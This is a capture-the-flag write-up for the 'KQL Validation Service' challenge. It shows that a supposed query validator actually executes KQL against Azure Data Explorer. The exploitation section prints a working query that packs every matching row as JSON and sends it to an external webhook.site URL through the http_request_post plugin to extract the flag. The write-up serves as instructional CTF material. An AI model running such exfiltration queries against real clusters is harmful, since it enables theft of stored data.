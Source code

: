 # KQL Validation Service

Writeup author: `0xle`

## Introduction

The *KQL Validation Service* seems to be a web application that allowed users to "validate" their KQL queries.

!["Validation" of an invalid KQL query.](assets/1.png)

Additionally, the frontend revealed various "cluster policies" which seems to be retrieved using
various [management commands](https://learn.microsoft.com/en-us/kusto/management/?view=azure-data-explorer).

![A page displaying "cluster policies".](assets/2.png)

## Analysis

Running prob queries for row(s) containing `EPT{` will reveal that the queries are not just *validated*, but actually
run against the Data Explorer instance.

**Query**:

```kql
let c = toscalar(search * | where * contains "EPT{" | count);
print assert(c != 0, "nope")
```

![Query displaying the existence of the flag.](assets/3.png)

Running a query with a gibberish string proves that the query is actually executed and not just validated. This will be
crucial for the exfiltration step later on.

![Query proving the execution on the Data Explorer instance.](assets/4.png)

Inspecting the "cluster policies" page will show that the `http_request` and the `http_request_post` plugins are enabled
for the Data Explorer instance.

![Policy showing the enabled HTTP request plugins.](assets/5.png)

To summarize the analysis phase concludes that:

- The query is actually being executed, and not just "validated".
- The flag most likely exists in the Data Explorer somewhere and should be accessible.
- The `http_request` and the `http_request_post` plugins are available for use.

## Exploitation

Since the validator does not have an easy way to output an arbitrary message, other means of extracting the data must be
used. Bruteforcing is most likely not possible if the task description can be taken with a grain of salt: "There is a
long flag in the Kusto database as well".

The HTTP request plugins were conveniently enabled and thus, can be used to send the data of the row(s) to an external
HTTP server. The website [webhook.site](https://webhook.site/) was to receive the data.

**Final query**:

```kql
let data = toscalar(search * | where * contains "}" | project a = dynamic_to_json(pack_all()));
evaluate http_request_post("https://webhook.site/...", dynamic({}), dynamic({}), data)
```

Explanation:

- The query searches for rows that has a string field containing `}`.
- The query [projects](https://learn.microsoft.com/en-us/kusto/query/project-operator?view=azure-data-explorer) the
  entire row as a JSON
  by [packing all the columns](https://learn.microsoft.com/en-us/kusto/query/pack-all-function?view=azure-data-explorer).
- The query invoked the [
  `http_request_post` plugin](https://learn.microsoft.com/en-us/kusto/query/http-request-post-plugin?view=azure-data-explorer)
  to send the row to an external HTTP server.

The query was first executed with `EPT{` as the search string, but that sent a bogus flag. The search string `}` was
later tried, which seemed to return the actual flag. (Note that a Regex could be used instead of a `contains` condition
since the task hinted that the flag is supposed to be *long*. For example, by using the following expression:
`where * matches regex "EPT.{10,}"`)

Executing the *final query* will result in the row containing the flag being sent to an external HTTP server thus,
gaining the
flag.

![Callback HTTP POST body containing the flag.](assets/6.png)